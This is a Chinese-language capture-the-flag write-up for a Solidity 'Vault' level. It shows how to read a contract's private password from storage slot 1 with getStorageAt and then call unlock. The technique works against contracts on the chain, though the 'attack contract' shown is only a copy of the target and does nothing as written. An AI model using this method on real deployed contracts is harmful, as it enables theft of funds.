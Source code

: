 ### 第九关 Vault
### 难度2/5
## 这一关的通关条件猜对密码打开保险柜。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
区块链的一个特点就是数据公开透明。合约将password存储在一个private的状态变量里，可以通过区块链的底层接口直接获取。之后调用unlock函数送入password就可以解锁了。
### 注意点：
1. 以太坊合约的状态变量按照声明顺序分配到存储槽（从存储槽0开始）。
2. 每个存储槽可以容纳32字节，也就是256位数据。
## 解题步骤：
1. 在console中输入await web3.eth.getStorageAt("0x578546AB0b765818E84ac03aaBa9eA942a9480B5”,1)
2. 打开remix，新建攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract attack{
    bool public locked;
    bytes32 public password ;
    function unlock(bytes32 _password)  public {
        if (password == _password) {
            locked = false;
    }
  }
    
}
```
3. 调用unlock函数的时候送入步骤1得到的password即可。
4. 提交过关。
